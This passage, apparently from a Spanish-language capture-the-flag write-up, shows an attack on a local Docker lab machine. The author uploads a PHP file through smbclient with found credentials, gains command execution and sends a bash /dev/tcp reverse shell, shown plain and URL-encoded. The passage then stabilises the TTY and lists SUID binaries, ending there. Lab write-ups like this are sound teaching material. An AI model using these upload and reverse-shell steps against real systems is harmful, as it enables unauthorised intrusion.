para cargar este archivo malicioso usare `smbclient`

```ruby
smbclient //172.17.0.2/html -U bob%star
```

![image](https://github.com/user-attachments/assets/e4c666c9-22b7-47eb-87ad-8e83e3142184)

cargo el php con `put code.php` en la consola interactiva que abre `smbclient` y voy al navegador a probar si funciona


![image](https://github.com/user-attachments/assets/7f4587db-bd14-447e-8290-4545531169d3)


consigo ejecucion remota de comandos, por lo que ahora envio una revershell

revershell a enviar:
```ruby
/bin/bash -i >& /dev/tcp/172.17.0.1/4450 0>&1
```
urlencodeo

```ruby
urlencode 'bash -c "/bin/bash -i >& /dev/tcp/172.17.0.1/4450 0>&1"'
```

revershell a enviar
```bash
bash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F4450%200%3E%261%22
```

![image](https://github.com/user-attachments/assets/d6d55773-8bf9-486e-9fc9-6e7016ff6060)

# Escalada de Privilegios

### `www-data`

tratamiento de la tty

```ruby
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm && export SHELL=bash && stty rows 38 cols 168
```
los user del sistema son `bob` y `james` como ya se habia reportado en `enum4linux-ng` pero la escalada en este caso se puede realizar directo hasta `root`, primero buscamos binarios con
el BIT SUID

```ruby
find / -perm -4000 2>/dev/null
```
```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/nano
```
